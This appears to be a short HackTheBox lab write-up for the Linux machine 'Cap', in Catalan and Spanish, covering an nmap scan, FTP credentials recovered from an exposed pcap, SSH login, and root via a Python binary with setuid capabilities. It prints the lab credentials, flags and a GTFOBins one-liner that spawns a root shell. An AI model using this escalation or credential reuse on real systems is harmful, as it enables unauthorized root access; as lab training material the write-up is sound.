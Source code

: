 # Cap

Plataforma: HackTheBox
OS: Linux
Level: Easy
Status: Done
Complete: Yes
Created time: 2 de diciembre de 2024 13:28
IP: 10.10.10.245

# Reconocimiento

NMap all ports:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports

```

> Resultats:
> 
> 
> ![image.png](<imagenes/image 23.png>)
> 

Veiem que canviant el valor del data a 0 mostra un fitxer pcap
S'obre amb Wireshark i mostra credencials de FTP

![image.png](<imagenes/image 24.png>)

User: nathan
password: Buck3tH4TF0RM3!

# Análisis de vulnerabilidades

Entrem per ftp i obtenim el flag de user:
 

![image.png](<imagenes/image 25.png>)

Entrem per ssh amb les mateixes credencials:

![image.png](<imagenes/image 26.png>)

# Explotación de vulnerabilidades

busquem les capabiliies per escala privilegis

```bash
getcap -r / 2>/dev/null

```

ens troba:

![image.png](<imagenes/image 27.png>)

Veiem qu el path /usr/bin/python3.8 te les capabilities habilitades

# Escalada de privilegios

Busquem a gtfobins com explotar el binari:

```bash
 ./usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'

```

![image.png](<imagenes/image 28.png>)

# Bandera(s)

> User: Buck3tH4TF0RM3
Root: 8c709aec8f05bee68669d9ec4e914451
>